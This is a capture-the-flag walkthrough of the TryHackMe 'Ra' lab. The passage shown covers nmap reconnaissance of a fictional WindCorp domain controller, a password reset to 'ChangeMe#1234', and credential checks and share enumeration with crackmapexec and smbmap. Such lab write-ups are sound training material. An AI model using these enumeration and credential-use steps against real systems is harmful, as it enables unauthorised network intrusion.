







# Ra

You have found WindCorp's internal network and their Domain Controller. Can you pwn their network?

[Ra](https://tryhackme.com/room/ra)

## Topic's

- Network Enumeration
- Web Poking
- SMB Enumeration
- CVE-2020-12772 - Spark 2.8.3
- Brute Forcing (NTML)
- Evil-WinRM
- Code Injection

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Ra

**Story**

You have gained access to the internal network of WindCorp, the multibillion dollar company, running an extensive social media campaign claiming to be unhackable (ha! so much for that claim!).

Next step would be to take their crown jewels and get full access to their internal network. You have spotted a new windows machine that may lead you to your end goal. Can you conquer this end boss and own their internal network?

Happy Hacking!

@4nqr34z and @theart42

(Give it at least 5 minutes to boot)

```
kali@kali:~/CTFs/tryhackme/Ra$ sudo nmap -A -sS -sC -sV -O 10.10.134.161
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-17 20:51 CEST
Nmap scan report for 10.10.134.161
Host is up (0.057s latency).
Not shown: 978 filtered ports
PORT     STATE SERVICE             VERSION
53/tcp   open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
80/tcp   open  http                Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Windcorp.
88/tcp   open  kerberos-sec        Microsoft Windows Kerberos (server time: 2020-10-17 18:51:39Z)
135/tcp  open  msrpc               Microsoft Windows RPC
139/tcp  open  netbios-ssn         Microsoft Windows netbios-ssn
389/tcp  open  ldap                Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|   Negotiate
|_  NTLM
| http-ntlm-info:
|   Target_Name: WINDCORP
|   NetBIOS_Domain_Name: WINDCORP
|   NetBIOS_Computer_Name: FIRE
|   DNS_Domain_Name: windcorp.thm
|   DNS_Computer_Name: Fire.windcorp.thm
|   DNS_Tree_Name: windcorp.thm
|_  Product_Version: 10.0.17763
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
| ssl-cert: Subject: commonName=Windows Admin Center
| Subject Alternative Name: DNS:WIN-2FAA40QQ70B
| Not valid before: 2020-04-30T14:41:03
|_Not valid after:  2020-06-30T14:41:02
|_ssl-date: 2020-10-17T18:54:40+00:00; +1s from scanner time.
| tls-alpn:
|_  http/1.1
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
2179/tcp open  vmrdp?
3268/tcp open  ldap                Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
3389/tcp open  ms-wbt-server       Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: WINDCORP
|   NetBIOS_Domain_Name: WINDCORP
|   NetBIOS_Computer_Name: FIRE
|   DNS_Domain_Name: windcorp.thm
|   DNS_Computer_Name: Fire.windcorp.thm
|   DNS_Tree_Name: windcorp.thm
|   Product_Version: 10.0.17763
|_  System_Time: 2020-10-17T18:54:02+00:00
| ssl-cert: Subject: commonName=Fire.windcorp.thm
| Not valid before: 2020-10-16T18:51:12
|_Not valid after:  2021-04-17T18:51:12
|_ssl-date: 2020-10-17T18:54:41+00:00; +1s from scanner time.
5222/tcp open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
| xmpp-info:
|   STARTTLS Failed
|   info:
|     stream_id: a14at48qic
|     xmpp:
|       version: 1.0
|     compression_methods:
|
|     errors:
|       invalid-namespace
|       (timeout)
|     features:
|
|     unknown:
|
|     auth_mechanisms:
|
|_    capabilities:
5269/tcp open  xmpp                Wildfire XMPP Client
| xmpp-info:
|   STARTTLS Failed
|   info:
|     errors:
|       (timeout)
|     xmpp:
|
|     compression_methods:
|
|     features:
|
|     unknown:
|
|     auth_mechanisms:
|
|_    capabilities:
7070/tcp open  http                Jetty 9.4.18.v20190429
|_http-server-header: Jetty(9.4.18.v20190429)
|_http-title: Openfire HTTP Binding Service
7443/tcp open  ssl/http            Jetty 9.4.18.v20190429
|_http-server-header: Jetty(9.4.18.v20190429)
|_http-title: Openfire HTTP Binding Service
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Not valid before: 2020-05-01T08:39:00
|_Not valid after:  2025-04-30T08:39:00
7777/tcp open  socks5              (No authentication; connection failed)
| socks-auth-info:
|_  No authentication
9090/tcp open  zeus-admin?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200 OK
|     Date: Sat, 17 Oct 2020 18:51:39 GMT
|     Last-Modified: Fri, 31 Jan 2020 17:54:10 GMT
|     Content-Type: text/html
|     Accept-Ranges: bytes
|     Content-Length: 115
|     <html>
|     <head><title></title>
|     <meta http-equiv="refresh" content="0;URL=index.jsp">
|     </head>
|     <body>
|     </body>
|     </html>
|   HTTPOptions:
|     HTTP/1.1 200 OK
|     Date: Sat, 17 Oct 2020 18:51:44 GMT
|     Allow: GET,HEAD,POST,OPTIONS
|   JavaRMI, drda, ibm-db2-das, informix:
|     HTTP/1.1 400 Illegal character CNTL=0x0
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
|   SqueezeCenter_CLI:
|     HTTP/1.1 400 No URI
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 49
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
|   WMSRequest:
|     HTTP/1.1 400 Illegal character CNTL=0x1
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x1</pre>
9091/tcp open  ssl/xmltec-xmlmail?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP:
|     HTTP/1.1 400 Illegal character CNTL=0x0
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
|   GetRequest:
|     HTTP/1.1 200 OK
|     Date: Sat, 17 Oct 2020 18:51:57 GMT
|     Last-Modified: Fri, 31 Jan 2020 17:54:10 GMT
|     Content-Type: text/html
|     Accept-Ranges: bytes
|     Content-Length: 115
|     <html>
|     <head><title></title>
|     <meta http-equiv="refresh" content="0;URL=index.jsp">
|     </head>
|     <body>
|     </body>
|     </html>
|   HTTPOptions:
|     HTTP/1.1 200 OK
|     Date: Sat, 17 Oct 2020 18:51:57 GMT
|     Allow: GET,HEAD,POST,OPTIONS
|   Help:
|     HTTP/1.1 400 No URI
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 49
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
|   RPCCheck:
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest:
|     HTTP/1.1 400 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Unknown Version</pre>
|   SSLSessionReq:
|     HTTP/1.1 400 Illegal character CNTL=0x16
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 70
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x16</pre>
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Not valid before: 2020-05-01T08:39:00
|_Not valid after:  2025-04-30T08:39:00
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port53-TCP:V=7.80%I=7%D=10/17%Time=5F8B3D3E%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version
SF:\x04bind\0\0\x10\0\x03");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port9090-TCP:V=7.80%I=7%D=10/17%Time=5F8B3D3A%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,11D,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sat,\x2017\x20Oct\x20
SF:2020\x2018:51:39\x20GMT\r\nLast-Modified:\x20Fri,\x2031\x20Jan\x202020\
SF:x2017:54:10\x20GMT\r\nContent-Type:\x20text/html\r\nAccept-Ranges:\x20b
SF:ytes\r\nContent-Length:\x20115\r\n\r\n<html>\n<head><title></title>\n<m
SF:eta\x20http-equiv=\"refresh\"\x20content=\"0;URL=index\.jsp\">\n</head>
SF:\n<body>\n</body>\n</html>\n\n")%r(JavaRMI,C3,"HTTP/1\.1\x20400\x20Ille
SF:gal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/html;charset=iso-
SF:8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n<h1>Bad\
SF:x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x0<
SF:/pre>")%r(WMSRequest,C3,"HTTP/1\.1\x20400\x20Illegal\x20character\x20CN
SF:TL=0x1\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nContent-Leng
SF:th:\x2069\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1>
SF:<pre>reason:\x20Illegal\x20character\x20CNTL=0x1</pre>")%r(ibm-db2-das,
SF:C3,"HTTP/1\.1\x20400\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Typ
SF:e:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2069\r\nConnecti
SF:on:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illeg
SF:al\x20character\x20CNTL=0x0</pre>")%r(SqueezeCenter_CLI,9B,"HTTP/1\.1\x
SF:20400\x20No\x20URI\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\n
SF:Content-Length:\x2049\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message
SF:\x20400</h1><pre>reason:\x20No\x20URI</pre>")%r(informix,C3,"HTTP/1\.1\
SF:x20400\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/htm
SF:l;charset=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r
SF:\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20characte
SF:r\x20CNTL=0x0</pre>")%r(drda,C3,"HTTP/1\.1\x20400\x20Illegal\x20charact
SF:er\x20CNTL=0x0\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nCont
SF:ent-Length:\x2069\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x20
SF:400</h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x0</pre>")%r(HTTP
SF:Options,56,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sat,\x2017\x20Oct\x20202
SF:0\x2018:51:44\x20GMT\r\nAllow:\x20GET,HEAD,POST,OPTIONS\r\n\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port9091-TCP:V=7.80%T=SSL%I=7%D=10/17%Time=5F8B3D4C%P=x86_64-pc-linux-g
SF:nu%r(GetRequest,11D,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sat,\x2017\x20O
SF:ct\x202020\x2018:51:57\x20GMT\r\nLast-Modified:\x20Fri,\x2031\x20Jan\x2
SF:02020\x2017:54:10\x20GMT\r\nContent-Type:\x20text/html\r\nAccept-Ranges
SF::\x20bytes\r\nContent-Length:\x20115\r\n\r\n<html>\n<head><title></titl
SF:e>\n<meta\x20http-equiv=\"refresh\"\x20content=\"0;URL=index\.jsp\">\n<
SF:/head>\n<body>\n</body>\n</html>\n\n")%r(HTTPOptions,56,"HTTP/1\.1\x202
SF:00\x20OK\r\nDate:\x20Sat,\x2017\x20Oct\x202020\x2018:51:57\x20GMT\r\nAl
SF:low:\x20GET,HEAD,POST,OPTIONS\r\n\r\n")%r(RTSPRequest,AD,"HTTP/1\.1\x20
SF:400\x20Unknown\x20Version\r\nContent-Type:\x20text/html;charset=iso-885
SF:9-1\r\nContent-Length:\x2058\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20
SF:Message\x20400</h1><pre>reason:\x20Unknown\x20Version</pre>")%r(RPCChec
SF:k,C7,"HTTP/1\.1\x20400\x20Illegal\x20character\x20OTEXT=0x80\r\nContent
SF:-Type:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2071\r\nConn
SF:ection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20I
SF:llegal\x20character\x20OTEXT=0x80</pre>")%r(DNSVersionBindReqTCP,C3,"HT
SF:TP/1\.1\x20400\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20
SF:text/html;charset=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x2
SF:0close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20
SF:character\x20CNTL=0x0</pre>")%r(DNSStatusRequestTCP,C3,"HTTP/1\.1\x2040
SF:0\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/html;cha
SF:rset=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\
SF:n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20
SF:CNTL=0x0</pre>")%r(Help,9B,"HTTP/1\.1\x20400\x20No\x20URI\r\nContent-Ty
SF:pe:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2049\r\nConnect
SF:ion:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20No\x
SF:20URI</pre>")%r(SSLSessionReq,C5,"HTTP/1\.1\x20400\x20Illegal\x20charac
SF:ter\x20CNTL=0x16\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nCo
SF:ntent-Length:\x2070\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x
SF:20400</h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x16</pre>");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: Host: FIRE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-10-17T18:54:04
|_  start_date: N/A

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   62.52 ms 10.8.0.1
2   62.40 ms 10.10.134.161

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 326.45 seconds
```

[http://10.10.134.161/](http://10.10.134.161/)




```
Lily Levesque

"I love being able to bring my best friend to work with me!"
```

[http://10.10.134.161/img/lilyleAndSparky.jpg](http://10.10.134.161/img/lilyleAndSparky.jpg)

[fire.windcorp.thm/reset.asp](fire.windcorp.thm/reset.asp)







```
Your password has been reset to: ChangeMe#1234
Remember to change it after logging in!
```

```
kali@kali:~/CTFs/tryhackme/Ra$ crackmapexec smb windcorp.thm -u lilyle -p ChangeMe#1234
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing SSH protocol database
[*] Initializing WINRM protocol database
[*] Initializing MSSQL protocol database
[*] Initializing SMB protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.10.134.161   445    FIRE             [*] Windows 10.0 Build 17763 x64 (name:FIRE) (domain:WINDCORP) (signing:True) (SMBv1:False)
SMB         10.10.134.161   445    FIRE             [+] WINDCORP\lilyle:ChangeMe#1234
```

```
kali@kali:~/CTFs/tryhackme/Ra$ smbmap -u lilyle -p ChangeMe#1234 -R -H windcorp.thm
[+] IP: windcorp.thm:445        Name: unknown
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        .\IPC$\*
        fr--r--r--                3 Mon Jan  1 00:53:28 1601    InitShutdown
        fr--r--r--                5 Mon Jan  1 00:53:28 1601    lsass
        fr--r--r--                3 Mon Jan  1 00:53:28 1601    ntsvcs
        fr--r--r--                4 Mon Jan  1 00:53:28 1601    scerpc
        fr--r--r--                1 Mon Jan  1 00:53:28 1601    Winsock2\CatalogChangeListener-254-0
        fr--r--r--                3 Mon Jan  1 00:53:28 1601    epmapper
        fr--r--r--                1 Mon Jan  1 00:53:28 1601    Winsock2\CatalogChangeListener-2b8-0
        fr--r--r--                3 Mon Jan  1 00:53:28 1601    LSM_API_service
        fr--r--r--                3 Mon Jan  1 00:53:28 1601    eventlog
        fr--r--r--                1 Mon Jan  1 00:53:28 1601    Winsock2\CatalogChangeListener-564-0
        fr--r--r--                3 Mon Jan  1 00:53:28 1601    atsvc
        fr--r--r--                1 Mon Jan  1 00:53:28 1601    Winsock2\CatalogChangeListener-74c-0
        fr--r--r--                4 Mon Jan  1 00:53:28 1601    wkssvc
        fr--r--r--                1 Mon Jan  1 00:53:28 1601    Winsock2\CatalogChangeListener-340-0
        fr--r--r--                1 Mon Jan  1 00:53:28 1601    Winsock2\CatalogChangeListener-340-1
        fr--r--r--                3 Mon Jan  1 00:53:28 1601    RpcProxy\49674
        fr--r--r--                3 Mon Jan  1 00:53:28 1601    535c27a2a13d3268
        fr--r--r--                3 Mon Jan  1 00:53:28 1601    RpcProxy\593
        fr--r--r--                4 Mon Jan  1 00:53:28 1601    srvsvc
        fr--r--r--                3 Mon Jan  1 00:53:28 1601    spoolss
        fr--r--r--                1 Mon Jan  1 00:53:28 1601    Winsock2\CatalogChangeListener-928-0
        fr--r--r--                3 Mon Jan  1 00:53:28 1601    netdfs
        fr--r--r--                3 Mon Jan  1 00:53:28 1601    ROUTER
        fr--r--r--                1 Mon Jan  1 00:53:28 1601    Winsock2\CatalogChangeListener-32c-0
        fr--r--r--                3 Mon Jan  1 00:53:28 1601    W32TIME_ALT
        fr--r--r--                1 Mon Jan  1 00:53:28 1601    PSHost.132474342479308965.4088.DefaultAppDomain.powershell
        fr--r--r--                1 Mon Jan  1 00:53:28 1601    Winsock2\CatalogChangeListener-d08-0
        fr--r--r--                3 Mon Jan  1 00:53:28 1601    TermSrv_API_service
        fr--r--r--                3 Mon Jan  1 00:53:28 1601    Ctx_WinStation_API_service
        fr--r--r--                3 Mon Jan  1 00:53:28 1601    SessEnvPublicRpc
        fr--r--r--                1 Mon Jan  1 00:53:28 1601    Winsock2\CatalogChangeListener-1724-0
        fr--r--r--                1 Mon Jan  1 00:53:28 1601    PIPE_EVENTROOT\CIMV2SCM EVENT PROVIDER
        fr--r--r--                1 Mon Jan  1 00:53:28 1601    PSHost.132474342467691407.3588.DefaultAppDomain.sme
        fr--r--r--                1 Mon Jan  1 00:53:28 1601    iisipmb561794a-2944-4592-abf1-358411b14acf
        fr--r--r--                1 Mon Jan  1 00:53:28 1601    iislogpipeb145491b-1ade-48d7-902c-12373a29005b
        fr--r--r--                1 Mon Jan  1 00:53:28 1601    PSHost.132474344375520064.4928.DefaultAppDomain.powershell
        fr--r--r--                1 Mon Jan  1 00:53:28 1601    Winsock2\CatalogChangeListener-cf8-0
        NETLOGON                                                READ ONLY       Logon server share
        .\NETLOGON\*
        dr--r--r--                0 Sat May  2 12:02:19 2020    .
        dr--r--r--                0 Sat May  2 12:02:19 2020    ..
        Shared                                                  READ ONLY
        .\Shared\*
        dr--r--r--                0 Sat May 30 02:45:42 2020    .
        dr--r--r--                0 Sat May 30 02:45:42 2020    ..
        fr--r--r--               45 Fri May  1 17:32:36 2020    Flag 1.txt
        fr--r--r--         29526628 Sat May 30 02:45:01 2020    spark_2_8_3.deb
        fr--r--r--         99555201 Sun May  3 13:08:39 2020    spark_2_8_3.dmg
        fr--r--r--         78765568 Sun May  3 13:08:39 2020    spark_2_8_3.exe
        fr--r--r--        123216290 Sun May  3 13:08:39 2020    spark_2_8_3.tar.gz
        SYSVOL                                                  READ ONLY       Logon server share
        .\SYSVOL\*
        dr--r--r--                0 Sat May  2 12:02:20 2020    .
        dr--r--r--                0 Sat May  2 12:02:20 2020    ..
        dr--r--r--                0 Sat May  2 12:02:20 2020    NRznLVEcPj
        dr--r--r--                0 Thu Apr 30 17:11:10 2020    windcorp.thm
        .\SYSVOL\windcorp.thm\*
        dr--r--r--                0 Thu Apr 30 17:17:20 2020    .
        dr--r--r--                0 Thu Apr 30 17:17:20 2020    ..
        dr--r--r--                0 Sat Oct 17 20:55:56 2020    DfsrPrivate
        dr--r--r--                0 Thu Apr 30 17:11:10 2020    Policies
        dr--r--r--                0 Sat May  2 12:02:19 2020    scripts
        .\SYSVOL\windcorp.thm\Policies\*
        dr--r--r--                0 Thu Apr 30 17:11:10 2020    .
        dr--r--r--                0 Thu Apr 30 17:11:10 2020    ..
        dr--r--r--                0 Thu Apr 30 17:11:10 2020    {31B2F340-016D-11D2-945F-00C04FB984F9}
        dr--r--r--                0 Thu Apr 30 17:11:10 2020    {6AC1786C-016F-11D2-945F-00C04fB984F9}
        .\SYSVOL\windcorp.thm\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\*
        dr--r--r--                0 Thu Apr 30 17:11:10 2020    .
        dr--r--r--                0 Thu Apr 30 17:11:10 2020    ..
        fr--r--r--               23 Fri May  8 15:15:01 2020    GPT.INI
        dr--r--r--                0 Fri May  1 13:32:28 2020    MACHINE
        dr--r--r--                0 Thu Apr 30 17:11:10 2020    USER
        .\SYSVOL\windcorp.thm\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\*
        dr--r--r--                0 Thu May  7 09:34:46 2020    .
        dr--r--r--                0 Thu May  7 09:34:46 2020    ..
        dr--r--r--                0 Thu May  7 09:34:46 2020    Applications
        dr--r--r--                0 Thu Apr 30 17:11:10 2020    Microsoft
        fr--r--r--             2792 Thu Apr 30 17:18:05 2020    Registry.pol
        dr--r--r--                0 Fri May  1 13:32:28 2020    Scripts
        .\SYSVOL\windcorp.thm\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\*
        dr--r--r--                0 Thu Apr 30 17:11:10 2020    .
        dr--r--r--                0 Thu Apr 30 17:11:10 2020    ..
        dr--r--r--                0 Thu Apr 30 17:11:10 2020    Windows NT
        .\SYSVOL\windcorp.thm\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Scripts\*
        dr--r--r--                0 Fri May  1 13:32:28 2020    .
        dr--r--r--                0 Fri May  1 13:32:28 2020    ..
        dr--r--r--                0 Fri May  1 13:32:28 2020    Shutdown
        dr--r--r--                0 Fri May  1 13:32:28 2020    Startup
        .\SYSVOL\windcorp.thm\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\*
        dr--r--r--                0 Thu Apr 30 17:11:10 2020    .
        dr--r--r--                0 Thu Apr 30 17:11:10 2020    ..
        fr--r--r--               23 Thu May  7 09:34:35 2020    GPT.INI
        dr--r--r--                0 Fri May  1 11:55:05 2020    MACHINE
        dr--r--r--                0 Thu Apr 30 17:11:10 2020    USER
        .\SYSVOL\windcorp.thm\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\*
        dr--r--r--                0 Fri May  1 11:55:05 2020    .
        dr--r--r--                0 Fri May  1 11:55:05 2020    ..
        dr--r--r--                0 Thu Apr 30 17:11:10 2020    Microsoft
        dr--r--r--                0 Fri May  1 11:55:05 2020    Scripts
        .\SYSVOL\windcorp.thm\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\*
        dr--r--r--                0 Thu Apr 30 17:11:10 2020    .
        dr--r--r--                0 Thu Apr 30 17:11:10 2020    ..
